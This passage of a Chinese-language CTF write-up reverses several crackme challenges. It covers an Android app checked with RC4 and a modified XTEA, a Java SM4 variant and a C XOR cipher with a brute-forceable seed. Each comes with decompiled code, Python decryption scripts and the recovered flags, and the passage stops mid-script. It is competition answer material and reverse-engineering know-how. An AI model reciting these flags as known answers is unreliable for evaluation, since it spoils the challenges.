        Intrinsics.checkNotNullExpressionValue(strSubstring2, "substring(...)");
        String strSubstring3 = strSubstring.substring(8, 16);
        Intrinsics.checkNotNullExpressionValue(strSubstring3, "substring(...)");
        byte[] bytes = strSubstring2.getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes, "getBytes(...)");
        byte[] bytes2 = strSubstring3.getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes2, "getBytes(...)");
        return J_Validate(bytes) && N_Valildate(bytes2);
    }

    @Override // androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        ComponentActivityKt.setContent$default(this, null, ComposableLambdaKt.composableLambdaInstance(-1003124788, true, new Function2<Composer, Integer, Unit>() { // from class: com.challenge.xsran.MainActivity.onCreate.1
            {
                super(2);
            }

            @Override // kotlin.jvm.functions.Function2
            public /* bridge */ /* synthetic */ Unit invoke(Composer composer, Integer num) {
                invoke(composer, num.intValue());
                return Unit.INSTANCE;
            }

            public final void invoke(Composer composer, int i) {
                if ((i & 11) != 2 || !composer.getSkipping()) {
                    if (ComposerKt.isTraceInProgress()) {
                        ComposerKt.traceEventStart(-1003124788, i, -1, "com.challenge.xsran.MainActivity.onCreate.<anonymous> (MainActivity.kt:81)");
                    }
                    final MainActivity mainActivity = MainActivity.this;
                    ThemeKt.MyApplicationTheme(false, false, ComposableLambdaKt.composableLambda(composer, 1465895320, true, new Function2<Composer, Integer, Unit>() { // from class: com.challenge.xsran.MainActivity.onCreate.1.1
                        {
                            super(2);
                        }

                        @Override // kotlin.jvm.functions.Function2
                        public /* bridge */ /* synthetic */ Unit invoke(Composer composer2, Integer num) {
                            invoke(composer2, num.intValue());
                            return Unit.INSTANCE;
                        }

                        public final void invoke(Composer composer2, int i2) {
                            if ((i2 & 11) != 2 || !composer2.getSkipping()) {
                                if (ComposerKt.isTraceInProgress()) {
                                    ComposerKt.traceEventStart(1465895320, i2, -1, "com.challenge.xsran.MainActivity.onCreate.<anonymous>.<anonymous> (MainActivity.kt:82)");
                                }
                                Modifier modifierFillMaxSize$default = SizeKt.fillMaxSize$default(Modifier.INSTANCE, 0.0f, 1, null);
                                long jM984getBackground0d7_KjU = MaterialTheme.INSTANCE.getColorScheme(composer2, MaterialTheme.$stable).m984getBackground0d7_KjU();
                                final MainActivity mainActivity2 = mainActivity;
                                SurfaceKt.m1271SurfaceT9BRK9s(modifierFillMaxSize$default, null, jM984getBackground0d7_KjU, 0L, 0.0f, 0.0f, null, ComposableLambdaKt.composableLambda(composer2, -989399779, true, new Function2<Composer, Integer, Unit>() { // from class: com.challenge.xsran.MainActivity.onCreate.1.1.1
                                    {
                                        super(2);
                                    }

                                    @Override // kotlin.jvm.functions.Function2
                                    public /* bridge */ /* synthetic */ Unit invoke(Composer composer3, Integer num) {
                                        invoke(composer3, num.intValue());
                                        return Unit.INSTANCE;
                                    }

                                    public final void invoke(Composer composer3, int i3) {
                                        if ((i3 & 11) == 2 && composer3.getSkipping()) {
                                            composer3.skipToGroupEnd();
                                            return;
                                        }
                                        if (ComposerKt.isTraceInProgress()) {
                                            ComposerKt.traceEventStart(-989399779, i3, -1, "com.challenge.xsran.MainActivity.onCreate.<anonymous>.<anonymous>.<anonymous> (MainActivity.kt:86)");
                                        }
                                        final MainActivity mainActivity3 = mainActivity2;
                                        ComposerKt.sourceInformationMarkerStart(composer3, 1157296644, "CC(remember)P(1):Composables.kt#9igjgp");
                                        boolean zChanged = composer3.changed(mainActivity3);
                                        Object objRememberedValue = composer3.rememberedValue();
                                        if (zChanged || objRememberedValue == Composer.INSTANCE.getEmpty()) {
                                            objRememberedValue = (Function1) new Function1<String, Boolean>() { // from class: com.challenge.xsran.MainActivity$onCreate$1$1$1$1$1
                                                {
                                                    super(1);
                                                }

                                                @Override // kotlin.jvm.functions.Function1
                                                public final Boolean invoke(String it) {
                                                    Intrinsics.checkNotNullParameter(it, "it");
                                                    return Boolean.valueOf(mainActivity3.validate(it));
                                                }
                                            };
                                            composer3.updateRememberedValue(objRememberedValue);
                                        }
                                        ComposerKt.sourceInformationMarkerEnd(composer3);
                                        MainActivityKt.FlagCheckerScreen((Function1) objRememberedValue, composer3, 0);
                                        if (ComposerKt.isTraceInProgress()) {
                                            ComposerKt.traceEventEnd();
                                        }
                                    }
                                }), composer2, 12582918, 122);
                                if (ComposerKt.isTraceInProgress()) {
                                    ComposerKt.traceEventEnd();
                                    return;
                                }
                                return;
                            }
                            composer2.skipToGroupEnd();
                        }
                    }), composer, 384, 3);
                    if (ComposerKt.isTraceInProgress()) {
                        ComposerKt.traceEventEnd();
                        return;
                    }
                    return;
                }
                composer.skipToGroupEnd();
            }
        }), 1, null);
        startService(new Intent(this, (Class<?>) MySimpleService.class));
    }
}
```

flag第一部分关键是J_Validate函数，其中调用的unknownEncrypt是RC4。密钥UNKNOWN_KEY，密文JAVA_CIPHER

```python
key = bytes([1, 35, 69, 103, 137, 171, 205, 239, 254, 220, 186, 152, 118, 84, 50, 16])
cipher = bytes([198, 23, 244, 244, 182, 92, 206, 144])  # 注意：Java的byte是有符号的，需要转换

def rc4(key, data):
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) & 0xFF
        S[i], S[j] = S[j], S[i]
    
    i = j = 0
    result = []
    for byte in data:
        i = (i + 1) & 0xFF
        j = (j + S[i]) & 0xFF
        S[i], S[j] = S[j], S[i]
        result.append(byte ^ S[(S[i] + S[j]) & 0xFF])
    
    return bytes(result)

part1 = rc4(key, cipher)
print(f"第一部分: {part1.decode('utf-8', errors='ignore')}")
```

得到kokodayo

第二部分关键是N_Valildate函数（和题目名字呼应上了），找找libxsran.so

同第一题，解压，ida

```c
bool __fastcall Java_com_challenge_xsran_MainActivity_N_1Valildate(__int64 a1, __int64 a2, __int64 a3)
{
  unsigned int v3; // eax
  __int64 v4; // rsi
  int v5; // r9d
  unsigned int v6; // r10d
  unsigned int v7; // r11d
  _QWORD v9[2]; // [rsp+8h] [rbp-10h] BYREF

  v9[1] = __readfsqword(0x28u);
  (*(void (__fastcall **)(__int64, __int64, _QWORD, __int64, _QWORD *))(*(_QWORD *)a1 + 1600LL))(a1, a3, 0, 8, v9);
  v3 = v9[0];
  v4 = HIDWORD(v9[0]);
  v5 = -32;
  v6 = -1640531527;
  do
  {
    v7 = v4;
    v4 = (v6 >> 2) & 3;
    v3 += (((v7 >> 5) ^ (4 * v7)) + ((v7 >> 3) ^ (16 * v7))) ^ ((v6 ^ v7) + (v7 ^ dword_590[v4]));
    LODWORD(v4) = v7
                + ((((v3 >> 5) ^ (4 * v3)) + ((v3 >> 3) ^ (16 * v3)))
                 ^ ((v6 ^ v3) + (v3 ^ dword_590[(unsigned int)v4 ^ 1])));
    v6 -= 1640531527;
    ++v5;
  }
  while ( v5 );
  return (v3 ^ 0x6421ACBE | (unsigned int)v4 ^ 0xFA7CB432) == 0;
}
```

xTEA变种。

```text
输入与输出：
加密后的结果（最终比较值）：v3 = 0x6421ACBE, v4 = 0xFA7CB432。
密钥（dword_590）：[0x3C2D1E0F, 0x78695A4B, 0xB4A59687, 0xF0E1D2C3]。
Delta 常量：1640531527 (即 0x9E3779B9)。
轮数：32 轮（v5 从 -32 增加到 0）。
加密过程（每轮）：
idx = (v6 >> 2) & 3
v3 += (((v4 >> 5) ^ (v4 << 2)) + ((v4 >> 3) ^ (v4 << 4))) ^ ((v6 ^ v4) + (v4 ^ key[idx]))
v4 = v4_old + (((v3 >> 5) ^ (v3 << 2)) + ((v3 >> 3) ^ (v3 << 4))) ^ ((v6 ^ v3) + (v3 ^ key[idx ^ 1]))
v6 -= delta
解密思路：
由于加密是先更新 v3 再更新 v4，解密时要先逆向更新 v4 再逆向更新 v3。
索引逻辑：v4 在循环开始时被临时用作索引 (v6 >> 2) & 3，更新 v3 时使用 key[v4]，更新 v4 本身时使用 key[v4 ^ 1]。
v6 的初始值需计算：加密开始时 v6 = 0x9E3779B9，经过 32 次减法，最后一次使用的 v6 是 0x9E3779B9 - 31 * 0x9E3779B9。
```

```python
import struct

def decrypt():
    # 最终比较的目标值
    v3 = 0x6421ACBE
    v4 = 0xFA7CB432
    
    # 密钥数组 dword_590 (注意小端序转 32 位整数)
    key = [0x3C2D1E0F, 0x78695A4B, 0xB4A59687, 0xF0E1D2C3]
    
    # 根据 C 代码: v6 = -1640531527 (即 0x9E3779B9)
    delta = 0x9E3779B9
    
    # 加密共 32 轮
    # 第 1 轮使用的 v6 是 1 * delta
    # 第 32 轮使用的 v6 是 32 * delta
    
    for i in range(32, 0, -1):
        v6 = (i * delta) & 0xFFFFFFFF
        idx = (v6 >> 2) & 3
        
        # 1. 逆向还原 v4
        # 加密逻辑: v4 = v7 + (((v3 >> 5) ^ (v3 << 2)) + ((v3 >> 3) ^ (v3 << 4))) ^ ((v6 ^ v3) + (v3 ^ key[idx ^ 1]))
        # 其中 v7 是旧的 v4
        t2_part1 = (((v3 >> 5) ^ (v3 << 2)) + ((v3 >> 3) ^ (v3 << 4))) & 0xFFFFFFFF
        t2_part2 = ((v6 ^ v3) + (v3 ^ key[idx ^ 1])) & 0xFFFFFFFF
        v4 = (v4 - (t2_part1 ^ t2_part2)) & 0xFFFFFFFF
        
        # 2. 逆向还原 v3
        # 加密逻辑: v3 = v3_old + (((v4 >> 5) ^ (v4 << 2)) + ((v4 >> 3) ^ (v4 << 4))) ^ ((v6 ^ v4) + (v4 ^ key[idx]))
        # 此时的 v4 已经是上面还原出来的 v4_old 了
        t1_part1 = (((v4 >> 5) ^ (v4 << 2)) + ((v4 >> 3) ^ (v4 << 4))) & 0xFFFFFFFF
        t1_part2 = ((v6 ^ v4) + (v4 ^ key[idx])) & 0xFFFFFFFF
        v3 = (v3 - (t1_part1 ^ t1_part2)) & 0xFFFFFFFF

    # 按照小端序转换回字节
    res = struct.pack("<II", v3, v4)
    return res

result = decrypt()
try:
    print(f"解密后的字符串: {result.decode('ascii')}")
except:
    print("结果包含不可见字符，请检查是否还有第一段或其他变换")
```

~OoO ~OoO(中间没有空格)

**flag{kokodayo~Oo O~OoO}**(没有空格)

这flag还真是别具一格的sao


+ easyjar

> Reverse engineering a simple algorithm

[ ^附件]:attachments.zip

sm4chal.jar，用jd反编译即可

Main.class:

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.nio.charset.StandardCharsets;

public class Main {
  private static final String KEY_SEED = "happ";
  
  private static final byte[] KEY = Sm4.deriveKeyFromSeed("happ");
  
  private static final String TARGET_CIPHER_HEX = "21c2692a4775c413356a31fc55c38f6218bed9d46c45bd0eb777be9334c999d7";
  
  public static void main(String[] paramArrayOfString) throws Exception {
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(System.in));
    System.out.print("Input flag: ");
    String str1 = bufferedReader.readLine();
    if (str1 == null)
      return; 
    if (!str1.startsWith("flag{") || !str1.endsWith("}")) {
      System.out.println("Wrong");
      return;
    } 
    byte[] arrayOfByte = Sm4.encrypt(KEY, str1.getBytes(StandardCharsets.UTF_8));
    String str2 = Sm4.toHex(arrayOfByte);
    if (str2.equals("21c2692a4775c413356a31fc55c38f6218bed9d46c45bd0eb777be9334c999d7")) {
      System.out.println("Correct");
    } else {
      System.out.println("Wrong");
    } 
  }
}
```

Sm4.class:

```java
import java.nio.charset.StandardCharsets;
import java.util.Arrays;

public class Sm4 {
  private static final byte[] SBOX = new byte[] { 
      -42, -112, -23, -2, -52, -31, 61, -73, 22, -74, 
      20, -62, 40, -5, 44, 5, 43, 103, -102, 118, 
      42, -66, 4, -61, -86, 68, 19, 38, 73, -122, 
      6, -103, -100, 66, 80, -12, -111, -17, -104, 122, 
      51, 84, 11, 67, -19, -49, -84, 98, -28, -77, 
      28, -87, -55, 8, -24, -107, Byte.MIN_VALUE, -33, -108, -6, 
      117, -113, 63, -90, 71, 7, -89, -4, -13, 115, 
      23, -70, -125, 89, 60, 25, -26, -123, 79, -88, 
      104, 107, -127, -78, 113, 100, -38, -117, -8, -21, 
      15, 75, 112, 86, -99, 53, 30, 36, 14, 94, 
      99, 88, -47, -94, 37, 34, 124, 59, 1, 33, 
      120, -121, -44, 0, 70, 87, -97, -45, 39, 82, 
      76, 54, 2, -25, -96, -60, -56, -98, -22, -65, 
      -118, -46, 64, -57, 56, -75, -93, -9, -14, -50, 
      -7, 97, 21, -95, -32, -82, 93, -92, -101, 52, 
      26, 85, -83, -109, 50, 48, -11, -116, -79, -29, 
      29, -10, -30, 46, -126, 102, -54, 96, -64, 41, 
      35, -85, 13, 83, 78, 111, -43, -37, 55, 69, 
      -34, -3, -114, 47, 3, -1, 106, 114, 109, 108, 
      91, 81, -115, 27, -81, -110, -69, -35, -68, Byte.MAX_VALUE, 
      17, -39, 92, 65, 31, 16, 90, -40, 10, -63, 
      49, -120, -91, -51, 123, -67, 45, 116, -48, 18, 
      -72, -27, -76, -80, -119, 105, -105, 74, 12, -106, 
      119, 126, 101, -71, -15, 9, -59, 110, -58, -124, 
      24, -16, 125, -20, 58, -36, 77, 32, 121, -18, 
      95, 62, -41, -53, 57, 72 };
  
  private static final int[] FK = new int[] { -1548633402, 1453994832, 1736282519, -1301273892 };
  
  private static final int[] CK = new int[] { 
      462357, 472066609, 943670861, 1415275113, 1886879365, -1936483679, -1464879427, -993275175, -521670923, -66909679, 
      404694573, 876298825, 1347903077, 1819507329, -2003855715, -1532251463, -1060647211, -589042959, -117504499, 337322537, 
      808926789, 1280531041, 1752135293, -2071227751, -1599623499, -1128019247, -656414995, -184876535, 269950501, 741554753, 
      1213159005, 1684763257 };
  
  private static final byte[] SBOX_P = new byte[256];
  
  static {
    for (byte b = 0; b < '; b++) {
      int i = (b ^ 0xA7) & 0xFF;
      int j = SBOX[i] & 0xFF;
      int k = b & 0x3;
      int m = rotl8(j, k);
      SBOX_P[b] = (byte)m;
    } 
  }
  
  public static byte[] deriveKeyFromSeed(String paramString) {
    byte[] arrayOfByte1 = paramString.getBytes(StandardCharsets.UTF_8);
    byte[] arrayOfByte2 = new byte[16];
    for (byte b = 0; b < 16; b++) {
      int i = arrayOfByte1[b % arrayOfByte1.length] & 0xFF;
      int j = i + b * 17 + 35 & 0xFF;
      arrayOfByte2[b] = (byte)j;
    } 
    return arrayOfByte2;
  }
  
  public static byte[] encrypt(byte[] paramArrayOfbyte1, byte[] paramArrayOfbyte2) {
    int[] arrayOfInt = expandKey(paramArrayOfbyte1);
    byte[] arrayOfByte1 = pkcs7Pad(paramArrayOfbyte2);
    byte[] arrayOfByte2 = new byte[arrayOfByte1.length];
    for (byte b = 0; b < arrayOfByte1.length; b += 16)
      encryptBlock(arrayOfByte1, b, arrayOfByte2, b, arrayOfInt); 
    return arrayOfByte2;
  }
  
  public static String toHex(byte[] paramArrayOfbyte) {
    StringBuilder stringBuilder = new StringBuilder(paramArrayOfbyte.length * 2);
    for (byte b : paramArrayOfbyte) {
      String str = Integer.toHexString(b & 0xFF);
      if (str.length() == 1)
        stringBuilder.append('0'); 
      stringBuilder.append(str);
    } 
    return stringBuilder.toString();
  }
  
  private static byte[] pkcs7Pad(byte[] paramArrayOfbyte) {
    int i = 16 - paramArrayOfbyte.length % 16;
    if (i == 0)
      i = 16; 
    byte[] arrayOfByte = Arrays.copyOf(paramArrayOfbyte, paramArrayOfbyte.length + i);
    Arrays.fill(arrayOfByte, paramArrayOfbyte.length, arrayOfByte.length, (byte)i);
    return arrayOfByte;
  }
  
  private static int[] expandKey(byte[] paramArrayOfbyte) {
    int[] arrayOfInt1 = new int[4];
    arrayOfInt1[0] = bytesToInt(paramArrayOfbyte, 0);
    arrayOfInt1[1] = bytesToInt(paramArrayOfbyte, 4);
    arrayOfInt1[2] = bytesToInt(paramArrayOfbyte, 8);
    arrayOfInt1[3] = bytesToInt(paramArrayOfbyte, 12);
    int[] arrayOfInt2 = new int[36];
    for (byte b1 = 0; b1 < 4; b1++)
      arrayOfInt2[b1] = arrayOfInt1[b1] ^ FK[b1]; 
    int[] arrayOfInt3 = new int[32];
    for (byte b2 = 0; b2 < 32; b2++) {
      int i = arrayOfInt2[b2 + 1] ^ arrayOfInt2[b2 + 2] ^ arrayOfInt2[b2 + 3] ^ CK[b2];
      i = TPrime(i);
      arrayOfInt2[b2 + 4] = arrayOfInt2[b2] ^ i;
      arrayOfInt3[b2] = arrayOfInt2[b2 + 4];
    } 
    return arrayOfInt3;
  }
  
  private static void encryptBlock(byte[] paramArrayOfbyte1, int paramInt1, byte[] paramArrayOfbyte2, int paramInt2, int[] paramArrayOfint) {
    int[] arrayOfInt = new int[36];
    arrayOfInt[0] = bytesToInt(paramArrayOfbyte1, paramInt1);
    arrayOfInt[1] = bytesToInt(paramArrayOfbyte1, paramInt1 + 4);
    arrayOfInt[2] = bytesToInt(paramArrayOfbyte1, paramInt1 + 8);
    arrayOfInt[3] = bytesToInt(paramArrayOfbyte1, paramInt1 + 12);
    int i;
    for (i = 0; i < 32; i++) {
      int n = arrayOfInt[i + 1] ^ arrayOfInt[i + 2] ^ arrayOfInt[i + 3] ^ paramArrayOfint[i];
      n = T(n);
      arrayOfInt[i + 4] = arrayOfInt[i] ^ n;
    } 
    i = arrayOfInt[35];
    int j = arrayOfInt[34];
    int k = arrayOfInt[33];
    int m = arrayOfInt[32];
    intToBytes(i, paramArrayOfbyte2, paramInt2);
    intToBytes(j, paramArrayOfbyte2, paramInt2 + 4);
    intToBytes(k, paramArrayOfbyte2, paramInt2 + 8);
    intToBytes(m, paramArrayOfbyte2, paramInt2 + 12);
  }
  
  private static int T(int paramInt) {
    int i = tau(paramInt);
    return i ^ rotl(i, 2) ^ rotl(i, 10) ^ rotl(i, 18) ^ rotl(i, 24);
  }
  
  private static int TPrime(int paramInt) {
    int i = tau(paramInt);
    return i ^ rotl(i, 13) ^ rotl(i, 23);
  }
  
  private static int tau(int paramInt) {
    int i = paramInt >>> 24 & 0xFF;
    int j = paramInt >>> 16 & 0xFF;
    int k = paramInt >>> 8 & 0xFF;
    int m = paramInt & 0xFF;
    i = sboxTransform(i);
    j = sboxTransform(j);
    k = sboxTransform(k);
    m = sboxTransform(m);
    return i << 24 | j << 16 | k << 8 | m;
  }
  
  private static int sboxTransform(int paramInt) {
    int i = (paramInt ^ 0x3C) & 0xFF;
    return SBOX_P[i] & 0xFF;
  }
  
  private static int rotl(int paramInt1, int paramInt2) {
    return paramInt1 << paramInt2 | paramInt1 >>> 32 - paramInt2;
  }
  
  private static int rotl8(int paramInt1, int paramInt2) {
    paramInt2 &= 0x7;
    return (paramInt1 << paramInt2 | paramInt1 >>> 8 - paramInt2) & 0xFF;
  }
  
  private static int bytesToInt(byte[] paramArrayOfbyte, int paramInt) {
    return (paramArrayOfbyte[paramInt] & 0xFF) << 24 | (paramArrayOfbyte[paramInt + 1] & 0xFF) << 16 | (paramArrayOfbyte[paramInt + 2] & 0xFF) << 8 | paramArrayOfbyte[paramInt + 3] & 0xFF;
  }
  
  private static void intToBytes(int paramInt1, byte[] paramArrayOfbyte, int paramInt2) {
    paramArrayOfbyte[paramInt2] = (byte)(paramInt1 >>> 24);
    paramArrayOfbyte[paramInt2 + 1] = (byte)(paramInt1 >>> 16);
    paramArrayOfbyte[paramInt2 + 2] = (byte)(paramInt1 >>> 8);
    paramArrayOfbyte[paramInt2 + 3] = (byte)paramInt1;
  }
}
```

故名思义是**SM4**算法，ai一把梭了，赛后再看看

基本信息，SM4也是一种对称加密算法，俗称国密算法

题目对SM4略微改动了，

```text
Key 派生逻辑 (deriveKeyFromSeed):
使用 "happ" 作为种子，通过公式 (seed[i % len] + i * 17 + 35) & 0xFF 生成 16 字节密钥。
自定义 S 盒:
代码在 static 块中通过 SBOX 生成了 SBOX_P，并且在 sboxTransform 中又做了一次异或 0x3C 的变换。
解密方法:
SM4 是对称算法，解密过程与加密完全相同，只需要将 32 个轮密钥（Round Keys）逆序使用 即可。
```

```python
import struct

SBOX_RAW = [
    -42, -112, -23, -2, -52, -31, 61, -73, 22, -74, 20, -62, 40, -5, 44, 5, 43, 103, -102, 118, 
    42, -66, 4, -61, -86, 68, 19, 38, 73, -122, 6, -103, -100, 66, 80, -12, -111, -17, -104, 122, 
    51, 84, 11, 67, -19, -49, -84, 98, -28, -77, 28, -87, -55, 8, -24, -107, -128, -33, -108, -6, 
    117, -113, 63, -90, 71, 7, -89, -4, -13, 115, 23, -70, -125, 89, 60, 25, -26, -123, 79, -88, 
    104, 107, -127, -78, 113, 100, -38, -117, -8, -21, 15, 75, 112, 86, -99, 53, 30, 36, 14, 94, 
    99, 88, -47, -94, 37, 34, 124, 59, 1, 33, 120, -121, -44, 0, 70, 87, -97, -45, 39, 82, 
    76, 54, 2, -25, -96, -60, -56, -98, -22, -65, -118, -46, 64, -57, 56, -75, -93, -9, -14, -50, 
    -7, 97, 21, -95, -32, -82, 93, -92, -101, 52, 26, 85, -83, -109, 50, 48, -11, -116, -79, -29, 
    29, -10, -30, 46, -126, 102, -54, 96, -64, 41, 35, -85, 13, 83, 78, 111, -43, -37, 55, 69, 
    -34, -3, -114, 47, 3, -1, 106, 114, 109, 108, 91, 81, -115, 27, -81, -110, -69, -35, -68, 127, 
    17, -39, 92, 65, 31, 16, 90, -40, 10, -63, 49, -120, -91, -51, 123, -67, 45, 116, -48, 18, 
    -72, -27, -76, -80, -119, 105, -105, 74, 12, -106, 119, 126, 101, -71, -15, 9, -59, 110, -58, -124, 
    24, -16, 125, -20, 58, -36, 77, 32, 121, -18, 95, 62, -41, -53, 57, 72
]
SBOX = [b & 0xFF for b in SBOX_RAW]

FK = [0xa3b1bac6, 0x56aa3350, 0x677d9197, 0xb27022dc]
CK = [
    0x00070e15, 0x1c232a31, 0x383f464d, 0x545b6269, 0x70777e85, 0x8c939aa1, 0xa8afb6bd, 0xc4cbd2d9,
    0xe0e7eef5, 0xfc030a11, 0x181f262d, 0x343b4249, 0x50575e65, 0x6c737a81, 0x888f969d, 0xa4abb2b9,
    0xc0c7ced5, 0xdce3eaf1, 0xf8ff060d, 0x141b2229, 0x30373e45, 0x4c535a61, 0x686f767d, 0x848b9299,
    0xa0a7aeb5, 0xbcc3cad1, 0xd8dfe6ed, 0xf4fb0209, 0x10171e25, 0x2c333a41, 0x484f565d, 0x646b7279
]

def rotl(x, n):
    return ((x << n) & 0xffffffff) | (x >> (32 - n))

def rotl8(x, n):
    n &= 0x7
    return ((x << n) & 0xFF) | (x >> (8 - n))

# 3. 初始化自定义 S 盒逻辑
SBOX_P = [0] * 256
for b in range(256):
    i = (b ^ 0xA7) & 0xFF
    j = SBOX[i]
    k = b & 0x3
    SBOX_P[b] = rotl8(j, k)

def sbox_transform(val):
    return SBOX_P[(val ^ 0x3C) & 0xFF]

def tau(paramInt):
    i = sbox_transform((paramInt >> 24) & 0xFF)
    j = sbox_transform((paramInt >> 16) & 0xFF)
    k = sbox_transform((paramInt >> 8) & 0xFF)
    m = sbox_transform(paramInt & 0xFF)
    return (i << 24) | (j << 16) | (k << 8) | m

def T(n):
    i = tau(n)
    return i ^ rotl(i, 2) ^ rotl(i, 10) ^ rotl(i, 18) ^ rotl(i, 24)

def TPrime(n):
    i = tau(n)
    return i ^ rotl(i, 13) ^ rotl(i, 23)

# 4. 密钥扩展
def expand_key(seed_str):
    seed_bytes = seed_str.encode()
    key = []
    for b in range(16):
        i = seed_bytes[b % len(seed_bytes)] & 0xFF
        j = (i + b * 17 + 35) & 0xFF
        key.append(j)
    
    MK = [struct.unpack(">I", bytes(key[i:i+4]))[0] for i in range(0, 16, 4)]
    K = [MK[i] ^ FK[i] for i in range(4)]
    rk = []
    for i in range(32):
        tmp = K[i+1] ^ K[i+2] ^ K[i+3] ^ CK[i]
        K_new = K[i] ^ TPrime(tmp)
        K.append(K_new)
        rk.append(K_new)
    return rk

# 5. 解密单块
def decrypt_block(cipher_block, rk):
    X = list(struct.unpack(">4I", cipher_block))
    # 注意：Java 代码加密结束时做了反序(35, 34, 33, 32)，
    # 所以解密开始时输入就是反序的，迭代后再反序回来
    for i in range(32):
        tmp = X[i+1] ^ X[i+2] ^ X[i+3] ^ rk[31-i]
        X.append(X[i] ^ T(tmp))
    
    res = struct.pack(">4I", X[35], X[34], X[33], X[32])
    return res

target_hex = "21c2692a4775c413356a31fc55c38f6218bed9d46c45bd0eb777be9334c999d7"
cipher_bytes = bytes.fromhex(target_hex)
round_keys = expand_key("happ")

plain_bytes = b""
for i in range(0, len(cipher_bytes), 16):
    plain_bytes += decrypt_block(cipher_bytes[i:i+16], round_keys)

# 移除 PKCS7 Padding
pad_len = plain_bytes[-1]
flag = plain_bytes[:-pad_len].decode()

print(f"解密后的结果: {flag}")
```

**flag{Have_A_Nice_Dayyyy}**


+ ezc

> What about the random key?
>
> flag提交格式：flag{youget}
> flag Submission format: flag{youget}

[ ^附件]:ezc.zip

ida直接打开

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // ebx
  __pid_t pid; // eax
  void *v5; // rsp
  void *v7; // rsp
  _QWORD s1_1[7]; // [rsp+8h] [rbp-4A0h] BYREF
  unsigned __int64 j; // [rsp+40h] [rbp-468h]
  size_t n36; // [rsp+48h] [rbp-460h]
  unsigned __int64 i; // [rsp+50h] [rbp-458h]
  __int64 n35; // [rsp+58h] [rbp-450h]
  _QWORD *s1_2; // [rsp+60h] [rbp-448h]
  __int64 n35_1; // [rsp+68h] [rbp-440h]
  void *s1; // [rsp+70h] [rbp-438h]
  char s[1032]; // [rsp+78h] [rbp-430h] BYREF
  unsigned __int64 v17; // [rsp+480h] [rbp-28h]

  v17 = __readfsqword(0x28u);
  v3 = time(0);
  pid = getpid();
  srand((pid ^ v3) % 0x14);
  n35 = 35;
  s1_1[4] = 36;
  s1_1[5] = 0;
  s1_1[2] = 36;
  s1_1[3] = 0;
  v5 = alloca(48);
  s1_2 = s1_1;
  for ( i = 0; i < 0x24; ++i )
    *((_BYTE *)s1_2 + i) = rand();
  printf("Enter your guess (exactly %zu bytes): ", 0x24u);
  if ( fgets(s, 1024, stdin) )
  {
    n36 = strlen(s);
    if ( n36 && s[n36 - 1] == 10 )
      s[--n36] = 0;
    if ( n36 == 36 )
    {
      n35_1 = 35;
      s1_1[0] = 36;
      s1_1[1] = 0;
      v7 = alloca(48);
      s1 = s1_1;
      for ( j = 0; j < 0x24; ++j )
        *((_BYTE *)s1 + j) = *((_BYTE *)s1_2 + j) ^ s[j];
      if ( !memcmp(s1, &cipher, 0x24u) )
        puts("Correct! Your input is the plaintext.");
      else
        puts("Incorrect.");
      return 0;
    }
    else
    {
      printf("Wrong length: expected %zu, got %zu\n", 0x24u, n36);
      return 1;
    }
  }
  else
  {
    fwrite("No input\n", 1u, 9u, stderr);
    return 1;
  }
}
```

显然密文是cipher

```asm
.rodata:0000000000002020 1F                                cipher db  1Fh                          ; DATA XREF: main+386↑o
.rodata:0000000000002021 C9                                db 0C9h
.rodata:0000000000002022 ED                                db 0EDh
.rodata:0000000000002023 29                                db  29h ; )
.rodata:0000000000002024 A6                                db 0A6h
.rodata:0000000000002025 FE                                db 0FEh
.rodata:0000000000002026 44                                db  44h ; D
.rodata:0000000000002027 EE                                db 0EEh
.rodata:0000000000002028 82                                db  82h
.rodata:0000000000002029 45                                db  45h ; E
.rodata:000000000000202A E9                                db 0E9h
.rodata:000000000000202B D8                                db 0D8h
.rodata:000000000000202C 7F                                db  7Fh ; 
.rodata:000000000000202D 42                                db  42h ; B
.rodata:000000000000202E 10                                db  10h
.rodata:000000000000202F E0                                db 0E0h
.rodata:0000000000002030 BB                                db 0BBh
.rodata:0000000000002031 4B                                db  4Bh ; K
.rodata:0000000000002032 D0                                db 0D0h
.rodata:0000000000002033 05                                db    5
.rodata:0000000000002034 4C                                db  4Ch ; L
.rodata:0000000000002035 76                                db  76h ; v
.rodata:0000000000002036 90                                db  90h
.rodata:0000000000002037 CB                                db 0CBh
.rodata:0000000000002038 48                                db  48h ; H
.rodata:0000000000002039 9C                                db  9Ch
.rodata:000000000000203A 7A                                db  7Ah ; z
.rodata:000000000000203B A9                                db 0A9h
.rodata:000000000000203C F0                                db 0F0h
.rodata:000000000000203D 33                                db  33h ; 3
.rodata:000000000000203E 55                                db  55h ; U
.rodata:000000000000203F 25                                db  25h ; %
.rodata:0000000000002040 64                                db  64h ; d
.rodata:0000000000002041 88                                db  88h
.rodata:0000000000002042 3D                                db  3Dh ; =
.rodata:0000000000002043 F7                                db 0F7h
.rodata:0000000000002044 00                                db    0
.rodata:0000000000002045 00                                db    0
.rodata:0000000000002046 00                                db    0
.rodata:0000000000002047 00                                db    0
```

生成随机密钥，但是种子可以爆破

```c
srand((pid ^ time(0)) % 0x14);  // 种子取值范围 0-19
for(i = 0; i < 0x24; ++i)
    key[i] = rand();
```

用户输入

程序要求输入 36 字节

读取用户输入 s，去除换行符

异或加密

```c
for(j = 0; j < 0x24; ++j)
    buffer[j] = key[j] ^ s[j];

if(!memcmp(buffer, &cipher, 0x24u))
    // 正确
```

```python
import ctypes

cipher = bytes([
    0x1F, 0xC9, 0xED, 0x29, 0xA6, 0xFE, 0x44, 0xEE,
    0x82, 0x45, 0xE9, 0xD8, 0x7F, 0x42, 0x10, 0xE0,
    0xBB, 0x4B, 0xD0, 0x05, 0x4C, 0x76, 0x90, 0xCB,
    0x48, 0x9C, 0x7A, 0xA9, 0xF0, 0x33, 0x55, 0x25,
    0x64, 0x88, 0x3D, 0xF7
])

libc = ctypes.CDLL("libc.so.6")

print("直接尝试所有20种种子:")
for seed in range(20):
    libc.srand(seed)
    key = bytes([libc.rand() & 0xFF for _ in range(36)])
    plain = bytes([key[i] ^ cipher[i] for i in range(36)])
    
    try:
        plain_str = plain.decode('ascii')
